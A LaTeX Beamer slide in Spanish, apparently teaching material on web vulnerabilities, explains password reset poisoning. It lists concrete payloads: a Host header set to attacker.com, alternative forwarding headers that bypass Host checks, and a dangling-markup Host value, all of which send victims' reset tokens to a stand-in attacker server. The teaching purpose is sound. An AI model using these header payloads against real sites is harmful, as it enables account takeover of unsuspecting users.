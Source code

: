 \documentclass[aspectratio=169,10pt]{beamer}
\newcommand{\cmd}[1]{\texttt{\color{uznavy}#1}}
\begin{document}
\begin{frame}[allowframebreaks]{Password Reset Poisoning}
\small
  \begin{itemize}
  \item Vulnerabilidades Web
  \item ¿Qué es el Password Reset Poisoning?
  \item La aplicación construye el enlace de reset usando la cabecera Host de la petición.
  \item Si un atacante manipula esa cabecera, el link de reset apunta a su servidor.
  \item Ataque básico con Burp
  \item \cmd{\# 1. Capturar POST /forgot-password body: username=victim}
  \item \cmd{\# 2. Modificar la cabecera Host:}
  \item Host: attacker.com
  \item $\rightarrow$ El email enviado a la víctima contiene:
  \item 'Click here: https://attacker.com/reset?token=SECRETO'
  \item $\rightarrow$ La víctima hace clic $\rightarrow$ el token llega al servidor del atacante
  \item Bypass con cabeceras alternativas
  \item X-Forwarded-Host: attacker.com
  \item X-Host: attacker.com
  \item X-Forwarded-Server: attacker.com
  \item $\rightarrow$ Algunos middlewares reenvían estas cabeceras aunque el Host esté protegido
  \item Bypass con dangling markup
  \item Host: victima.com:'\textless{}a href=//attacker.com/?
  \item $\rightarrow$ El link se 'rompe' y el resto del email se envía como query string
  \item Impacto: Account Takeover completo sin conocer la contraseña actual
  \item portswigger.net/web-security/host-header/exploiting/password-reset-poisoning
  \end{itemize}
\end{frame}
\end{document}

